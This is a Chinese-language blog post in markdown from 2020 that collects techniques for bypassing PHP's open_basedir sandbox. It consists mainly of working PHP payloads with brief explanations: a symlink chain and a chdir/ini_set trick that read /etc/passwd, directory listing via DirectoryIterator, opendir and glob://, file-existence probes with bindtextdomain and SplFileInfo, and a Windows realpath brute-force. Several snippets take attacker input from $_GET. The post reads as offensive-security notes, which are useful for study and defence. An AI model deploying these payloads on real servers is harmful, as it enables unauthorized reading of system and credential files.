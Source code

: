 ```yaml
---
layout:     post
title:      PHP bypass open_basedir
subtitle:   简单记录绕过的几种方法
date:       2020-07-28
author:     BY Diego
header-img: /img/wenzhang/post-bg-格式化.jpgimg/wenzhang/post-php-open_basedir.jpg
catalog: true
tags:
    - PHP
---
```


实验环境

![aPsSWq.png](https://s1.ax1x.com/2020/07/27/aPsSWq.png)



# symlink 绕过

前提：有足够的权限去创建文件

payload
```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
mkdir("E");
chdir("E");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D/E","bypass");
symlink("bypass/../../../../../etc/passwd","res");
unlink("bypass");
mkdir("bypass");
?>
```

原理 由于symlink 也受到`open_basedir`的限制 无法直接绕过限制， 先依次创建一个文件夹`A/B/C/D/E`，然后通过软连接让 `/var/www/html/dir/bypass -> /var/www/html/dir/A/B/C/D/E`,然后 `/var/www/html/dir/res -> /var/www/html/dir/bypass/../../../../../etc/passwd` ,也就是说 `/var/www/html/dir/res -> /var/www/html/dir/A/B/C/D/E/../../../../../etc/passwd = /var/www/html/dir/etc/passwd` 至此所有操作都是在`open_basedir`中操作的，再然后删除 `bypass` 文件再新建一个单纯的文件不在具有链接，现在res的指向变成了`/var/www/html/dir/res -> /var/www/html/dir/bypass/../../../../../etc/passwd = /etc/password`

![aPs9S0.png](https://s1.ax1x.com/2020/07/27/aPs9S0.png)




# glob

方法一

利用 `DirectoryIterator`

```php
<?php
$c = $_GET['c'];
$a = new DirectoryIterator($c);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

方法二

```php
<?php
$a = $_GET['c'];
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```
只能列目录，php7可以用如下方法读非根目录文件

该方法测试发现除了根目录 与 `open_basedir`指定的目录，只要知道某个目录下的文件名称就可列目录
如 `/var` 下存在 `www` 目录，那么就可以对 `/var` 下任意目录进行列举

如 `glob:///*/www/../*` 就可列举   `/var`

![aPv07F.png](https://s1.ax1x.com/2020/07/27/aPv07F.png)

![aPvw0U.png](https://s1.ax1x.com/2020/07/27/aPvw0U.png)

# 系统命令函数

命令函数不受限制
```php
system('cat /etc/passwd');
```

# chdir 与 ini_set

```php
<?php
mkdir('aa');chdir('aa');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
?>
```

# bindtextdomain 与 SplFileInfo

只能确定目录文件是否存在，存在则返回路径 否则false
```php
<?php
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

```php
<?php
$info = new SplFileInfo($_GET['dir']);
var_dump($info->getRealPath());
?>
```

# realpath

仅限windows
```php

<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = '**';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) {
        $file = $dir . $chars[$i] . '<><';
        realpath($file);
}
function isexists($errno, $errstr)
{
        $regexp = '/File\((.*)\) is not within/';
        preg_match($regexp, $errstr, $matches);
        if (isset($matches[1])) {
                printf("%s <br/>", $matches[1]);
        }
}
?>
```


# 其他

[php5全版本绕过open_basedir读文件脚本](https://www.leavesongs.com/bypass-open-basedir-readfile.html)

[浅谈几种Bypass open_basedir的方法](https://www.mi1k7ea.com/2019/07/20/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-open-basedir%E7%9A%84%E6%96%B9%E6%B3%95/)
